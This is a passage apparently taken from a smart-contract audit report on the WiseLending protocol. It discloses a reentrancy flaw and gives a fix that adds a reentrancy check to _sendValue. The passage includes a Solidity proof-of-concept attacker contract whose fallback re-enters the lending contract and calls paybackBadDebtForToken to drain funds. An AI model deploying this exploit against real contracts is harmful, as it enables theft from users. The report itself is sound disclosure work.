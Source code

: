 ```solidity
```

```solidity
// SPDX-License-Identifier: -- WISE --

pragma solidity =0.8.24;

// import lending and fees contracts
import "./WiseLending.sol";
import "./FeeManager/FeeManager.sol";

contract ContractA {
    address public feesContract;
    address payable public lendingContract;

    address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    constructor(address _feesContract, address payable _lendingContract) payable {
        feesContract = _feesContract;
        lendingContract = _lendingContract;
    }

    fallback() external payable {
        if (msg.sender == lendingContract) {
            // send lending contract 0.01 eth to reset reentrancy flag
            (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
            //paybackBadDebtForToken
            FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
        }
    }
}
```

### Impact

This vulnerability allows an attacker to illicitly withdraw funds from the contract through the outlined method. Additionally, the exploit could also work using the contract's liquidation process instead.

### Tools Used

Foundry

### Recommendation

Edit the `_sendValue` function to include a reentrancy check. This ensures that the reentrancy guard is first checked, preventing attackers from exploiting this function as a reentry point. This will also not disrupt transfers from the WETH address as those don’t go through the `_sendValue` function.

```solidity
    function _sendValue(
        address _recipient,
        uint256 _amount
    )
        internal
    {
        if (address(this).balance < _amount) {
            revert AmountTooSmall();
        }

	_checkReentrancy(); //add here

        sendingProgress = true;
```